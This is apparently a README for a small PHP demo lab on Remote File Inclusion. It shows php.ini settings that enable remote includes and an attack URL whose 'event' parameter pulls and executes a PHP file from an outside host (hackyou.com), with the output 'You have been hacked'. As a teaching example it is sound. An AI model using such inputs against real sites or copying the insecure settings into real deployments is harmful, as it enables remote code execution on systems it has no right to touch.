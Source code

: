 # Remote File Inclusion

## Usage

### Set php.ini

```
allow_url_fopen = On
allow_url_include = On
```

### Type Url in Browser

* http://hackme.com/rfi/index.php?event=event1&award=1

> gun

* http://hackme.com/rfi/index.php?event=http://hackyou.com/rfi/index

> You have been hacked


> it's execute http://hackyou.com/rfi/index.php

## Reference
* [The Web Application Security Consortium / Remote File Inclusion](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)

* [File inclusion vulnerability@wikipedia](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)